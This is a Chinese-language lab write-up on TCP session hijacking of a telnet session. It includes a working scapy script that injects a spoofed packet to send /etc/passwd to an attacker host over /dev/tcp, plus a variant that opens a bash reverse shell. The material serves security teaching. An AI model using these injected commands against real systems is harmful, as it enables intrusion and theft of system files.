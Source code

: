 # TCP会话劫持攻击背景

一台计算机可以有多个并发的TCP会话，因此它需要知道一个数据包属于哪一个TCP会话。TCP使用4元组来唯一确定一个会话：
源IP地址、目的IP地址、源端口号、目的端口号，这4个域称为TCP会话的特征。

为了伪造数据包，除了上面四个特征必须符合外，还有一个关键的序列号必须符合

如果接收方是telnet服务器，那从发送方到接收方的数据就是命令，一旦控制了该会话，就可以让telnet服务器运行攻击者的命令，
这就是把这类攻击称为TCP会话劫持的原因

## 发动TCP会话劫持攻击

**实验目标**：劫持客户端，在服务端用受害者权限运行命令  
1、客户端telnet连接到服务端  
2、Wireshark中找到客户端发给服务端的最后一个telnet数据包  
![客户端最后一个包](../img/tcp-shark-session.png)

!!! Note

    客户端发给服务端最后一个数据包是ACK包，不包含任何数据，因此不占用任何序列号

3、宿主机启动TCP接收服务    
一旦攻击命令在服务端上执行成功，就可以通过命令把输出发送到宿主机启动的服务器上  
![起nc服务](../img/tcp-attacker-nc.png)

-lv是等待连接，并输出来自这个连接的任何内容  

4、将服务端输出重定向到宿主机  
服务端执行命令：  
![重定向](../img/tcp-server-echo.png)  

宿主机收到：
![收到重定向信息](../img/tcp-nc-receive.png)

上面这个实验是说明原理的，实际攻击者不可能访问服务器。下面用scapy来实现这个攻击。

```python
#!/usr/bin/python3
import sys
from scapy.all import *

print("SENDING SESSION HIJACKING PACKET.....")
client_addr = "192.168.230.151"
server_addr = "192.168.230.150"

IPLayer = IP(src=client_addr, dst=server_addr)
TCPLayer = TCP(sport=38276, dport=23, flags="A", seq=2833231448, ack=1828464701)
Data = "\r cat /etc/passwd > /dev/tcp/192.168.230.1/9090\r"
pkt = IPLayer/TCPLayer/Data
ls(pkt)
send(pkt, verbose=0)
```

1、宿主机起nc服务  
2、宿主机发动攻击  
宿主机执行：
```bash
sudo python sessionhijack.py
```

可以看到服务端的passwd重定向到了宿主机：
![攻击成功](../img/tcp-redirect-passwd.png)

!!! warning

    实验实际做下来，第一次没有劫持成功，重新wireshark取数据，更新脚本数值，第二次成功了，要多试几次

!!! Note

    脚本攻击中还必须设置ACK位，就是wireshark中的Acknowledgment Number。  
    当攻击过程中如果客户端还是持续地输入，那么序列号就不容易写正确，这时可以做一个估计N + 100，这样受害者
    输入长度到的时候就会触发伪造数据，为了使伪造数据不与受害者数据混淆，故加入\r

## TCP劫持攻击连接的过程

上一个实验对客户端和服务端的连接是破坏性的，攻击者发的伪造包，服务端收到后回复给了客户端，而客户端没有到达
这个序列号，会认为是无效的，就会丢弃。这样服务端没有收到确认就会重发，从而一直被客户端丢弃。

另一方面，如果客户端telnet程序输入时，序列号已经被占用，服务器会视为重复数据，不予理睬，而客户端就会重发。
一段时间后，双方TCP连接被断开。

## 创建反向shell

步骤和上面都一样，只是脚本中Data改成：
```python
Data = "\r /bin/bash -i > /dev/tcp/192.168.230.1/9090 2>&1 0<&1 \r"
```

执行后在宿主机成功获取到了服务端的shell：
![获得服务端shell](../img/tcp-redirect-shell.png)

!!! Note

    -i 交互模式  
    2>&1 标准错误重定向到1，1已经重定向到宿主机9090端口  
    0<&1 服务端输入重定向到1